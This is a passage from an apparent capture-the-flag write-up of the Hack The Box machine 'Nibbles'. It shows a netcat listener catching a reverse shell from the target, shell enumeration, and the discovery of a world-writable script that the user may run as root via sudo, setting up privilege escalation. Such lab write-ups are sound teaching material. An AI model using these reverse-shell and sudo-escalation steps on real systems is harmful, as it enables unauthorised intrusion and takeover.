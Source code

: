 And on our listener:

```
kali@kali:~/htb/Nibbles$ sudo nc -nlvp 1337
[sudo] password for kali:
Listening on 0.0.0.0 1337
Connection received on 10.129.79.148 41576
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:14:51 up 18:16,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$
```

Ok, let’s elevate the shell to a tty/pty shell and look around.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Sudo -l took a while which got me worried that it crashed, but it was all good.

While grabbing the user.txt flag, I saw a zip file called personal.zip in Nibblers home folder.

Which I unzipped. This revealed a shell script:


``` 
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
...
```
